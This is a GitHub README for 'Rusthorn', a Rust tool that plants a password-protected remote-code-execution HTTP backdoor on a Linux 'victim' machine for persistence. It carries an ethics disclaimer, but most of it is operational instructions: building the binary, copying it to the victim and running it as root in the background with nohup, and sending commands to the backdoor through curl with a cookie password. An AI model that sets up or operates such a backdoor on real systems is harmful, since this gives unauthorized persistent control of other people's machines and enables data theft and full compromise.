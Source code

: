 # Rusthorn

This tool facilitates persistence via creating a password-protected RCE-vulnerable HTTP server.


## A Note & Disclaimer on Risk, Legality and Ethicality
**Rusthorn** is a powerful tool that can be used to facilitate persistence via a password-protected remote code execution (RCE) vulnerability. However, it is important to note that this tool **behaves similarly to command-and-control (C2) malware**, and its usage on any system without explicit authorization is **illegal and unethical**.

This tool was designed for educational purposes and is intended to be used only in controlled environments where you have proper authorization. This includes security research, penetration testing with permission, and similar ethical use cases. **It is imperative that you understand the legal and ethical implications of using such tools**.

**This tool must NEVER be used for for-profit reasons or military applications**.

Using this tool on unauthorized systems is a violation of the law and can lead to serious consequences. Additionally, deploying it on your personal network or any environment that is not properly secured could expose your systems to significant security risks, including data breaches or full-system compromise.

Please use this tool responsibly.
## Setup

You will need an attacker machine that can run cargo (or precompile your binary on such a machine) and a victim machine where you have root auth level.
This tool runs by default on Linux x86-x64. It's possible to compile this code for other devices with the proper documentation.

First of all clone the repo:

``` bash
git clone https://github.com/XoanOuteiro/rusthorn
```

Then you will need to modify the PSSWD and PORT constants on /src/main.rs:

``` rust
// constants for auth, configs
const PSSWD: &str = "supersecret"; // change this before compile
const PORT: u16 = 11312; // change this before compile
```

(These are the default values)

Then go back to the root folder and run:

``` bash
cargo build --release
```

Your binary will be ready at /target/release/rusthorn
In the future, a compiler script will be implemented to avoid these steps.


## Usage

Transfer the binary to the victim's computer and run it as root:

``` bash
chmod +x (pathToRusthorn)
./rusthorn &
```

You may also want to run it via nohup:

``` bash
nohup ./rusthorn &> /dev/null &
```

## Interaction

By default your backdoor will be running at 0.0.0.0 in the victim machine, meaning it should be reachable from any net its interfaces are connected to.
You can easily interact with your backdoor via curl, remember to pass your password or your commands will be rejected. You may use this template:

``` bash
curl -b "pswd=[PASSWORD]" http://[ip]:[PORT]/[command]
```

Rusthorn interprets "+" in the URL as whitespace, so that character may be used if a command requires whitespaces to add flags.
